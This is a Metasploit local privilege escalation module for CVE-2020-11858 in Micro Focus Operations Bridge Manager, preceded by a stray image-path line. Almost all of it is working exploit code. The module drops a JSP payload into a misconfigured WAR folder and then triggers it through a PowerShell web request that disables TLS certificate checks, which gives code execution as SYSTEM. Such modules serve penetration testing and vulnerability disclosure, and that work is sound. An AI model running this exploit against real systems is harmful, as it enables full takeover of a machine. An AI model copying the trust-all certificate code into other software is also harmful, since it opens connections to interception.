     ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Local
      Rank = ExcellentRanking

      include Msf::Post::File
      include Msf::Post::Windows::Powershell
      include Msf::Exploit::EXE

      def initialize(info = {})
        super(
          update_info(
            info,
            'Name' => 'Micro Focus Operations Bridge Manager Local Privilege Escalation',
            'Description' => %q{
              This module exploits an incorrectly permissioned folder in Micro Focus Operations Bridge
              Manager.
              An unprivileged user (such as Guest) can drop a JSP file in an exploded WAR directory and
              then access it without authentication by making a request to the OBM server.
              This will result in automatic code execution as SYSTEM. This module has been tested on
              OBM 2020.05, but it should work out of the box on earlier versions too.
            },
            'License' => MSF_LICENSE,
            'Author' =>
              [
                'Pedro Ribeiro <pedrib[at]gmail.com>', # Vulnerability discovery and Metasploit module
              ],
            'Platform' => 'win',
            'Privileged' => true,
            'SessionTypes' => ['meterpreter'],
            'Arch' => [ ARCH_X86, ARCH_X64 ],
            'Targets' =>
              [
                [
                  'Micro Focus Operations Bridge Manager <= 2020.05',
                  {
                    'Path' => 'C:\HPBSM\AppServer\webapps\site.war\LB_Verify.jsp'
                  }
                ]
              ],
            'References' =>
              [
                [ 'URL', 'https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBM.md'],
                [ 'CVE', '2020-11858'],
                [ 'ZDI', '20-1326'],
              ],
            'DisclosureDate' => '2020-10-28',
            'DefaultTarget' => 0
          )
        )

        register_options([
          Opt::RPORT(443),
          OptString.new('TARGETURI', [true, 'Base path', '/']),
          OptBool.new('SSL', [true, 'Negotiate SSL/TLS', true]),
        ])
      end

      def exploit
        unless session.type == 'meterpreter'
          fail_with(Failure::None, 'Only meterpreter sessions are supported')
        end

        unless have_powershell?
          fail_with(Failure::None, 'No Powershell is installed on the host')
        end

        # according to /lib/msf/core/post/file.rb this is not binary safe on Windows, but we don't care, it's JSP
        payload_jsp = Msf::Util::EXE.to_jsp(generate_payload_exe)
        write_file(target['Path'], payload_jsp)

        if datastore['SSL']
          prefix = 'https://'
          # Code below allows us to perform TLS requests to servers with self signed certs
          # In Powershell 5.1, we can simply use -SkipCertificateCheck, but in older versions we need this
          # Taken from https://stackoverflow.com/questions/11696944/powershell-v3-invoke-webrequest-https-error
          ps_cmd = %[
    add-type @"
    using System.Net;
    using System.Security.Cryptography.X509Certificates;
    public class TrustAllCertsPolicy : ICertificatePolicy {
        public bool CheckValidationResult(
            ServicePoint srvPoint, X509Certificate certificate,
            WebRequest request, int certificateProblem) {
            return true;
        }
    }
    "@
    $AllProtocols = [System.Net.SecurityProtocolType]'Ssl3,Tls,Tls11,Tls12'
    [System.Net.ServicePointManager]::SecurityProtocol = $AllProtocols
    [System.Net.ServicePointManager]::CertificatePolicy = New-Object TrustAllCertsPolicy
    ]
        else
          prefix = 'http://'
          ps_cmd = ''
        end

        uri = "#{prefix}127.0.0.1:#{datastore['RPORT']}#{datastore['TARGETURI']}topaz/LB_Verify.jsp"
        print_status("JSP dropped, calling it @ #{uri}")
        ps_cmd += "Invoke-WebRequest -Uri #{uri}"
        execute_script(ps_cmd)
      end
    end